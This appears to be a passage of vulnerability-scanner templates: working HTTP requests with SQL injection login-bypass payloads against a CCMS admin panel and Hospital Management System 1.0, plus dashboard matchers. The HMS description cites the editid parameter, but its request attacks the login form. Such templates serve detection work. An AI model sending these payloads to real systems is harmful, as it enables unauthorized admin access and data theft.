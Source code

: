 ### Step - 1

```
POST /ccms/index.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

username=%27+Or+1--+-&password=1&login=

```

### Step - 2

```
GET /ccms/dashboard.php HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. CCMS Admin Dashboard
  2. CCMS ADMIN | Admin
- condition - and

**Type - status**

- status
  1. 200

---

# Hospital Management System 1.0 - SQL Injection

## Description

- Hospital Management System 1.0 contains a SQL injection vulnerability via the editid parameter in /HMS/doctor.php. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - critical
- tags - cve,cve2022,hms,cms,sqli,auth-bypass

## Requests

### Step - 1

```
POST /hms/doctor/ HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

username=admin%27+or+%271%27%3D%271%27%23&password=admin%27+or+%271%27%3D%271%27%23&submit=

```
